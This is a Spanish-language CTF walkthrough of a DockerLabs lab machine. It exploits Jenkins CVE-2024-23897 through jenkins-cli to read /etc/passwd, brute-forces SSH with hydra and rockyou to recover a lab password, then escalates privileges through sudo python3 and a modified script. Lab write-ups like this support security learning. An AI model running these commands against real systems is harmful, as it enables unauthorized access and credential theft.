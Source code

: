 https://dockerlabs.es/
https://mega.nz/file/wbEwUBRY#z7bH1Hj9-6tsD2G0ji0tBujUbFaE7w8W3YhvV0MpMQs
## Desplegar el docker

![[Pasted image 20250523000429.png]]

Y los mismos pasos que los ultimos ping y luego nmap para saber los puertos que tiene expuestos.

![[Pasted image 20250523001040.png]]
Vamos a visitar la pagina

![[Pasted image 20250523001128.png]]

Como no podemos saber que versión tiene, vamos a ejecutar `whatweb` 

![[Pasted image 20250523001350.png]]
Ya sabemos que está en la versión 2.441

Con una busqueda en google, ya tenemos una vulnerabilidad la cual podemos ejecutar

![[Pasted image 20250523001445.png]]
https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897

Ahora vamos a seguir los pasos.

Descargarse ``http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar``

![[Pasted image 20250523001559.png]]

Gracias a este archivo vamos a intentar leer /etc/passwd

`java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"`

![[Pasted image 20250523001652.png]]

Podemos ver dos usuario **bobby** y **pinguinito**.

Por lo que con `hydra` y el diccionario `rockyou` vamos a realizar la fuerza bruta a ese usuario por `ssh

`hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![[Pasted image 20250523003810.png]]

Lo tenemos

bobby:chocolate

![[Pasted image 20250523003938.png]]

Vamos a ver que puede ejecutar.

![[Pasted image 20250523004118.png]]

**Pinguinito** puede ejecutar python

Vamos a cambiar a **pinguinito**

`sudo -u pinguinito /usr/bin/python3`



Si vamos a la ruta /opt podemos ver un script

![[Pasted image 20250523004220.png]]

![[Pasted image 20250523004237.png]]

Vamos a modificarlo para hacer la escala de privilegios.

No podemos modificarlo con ningun editor de texto.

![[Pasted image 20250523004436.png]]

![[Pasted image 20250523004626.png]]
![[Pasted image 20250523004707.png]]
Nos damos permisos de lectura, escritura y ejecución

Y como en anteriores ocasiones importamos la libreria `os` para poder lanzar el comando `bash`

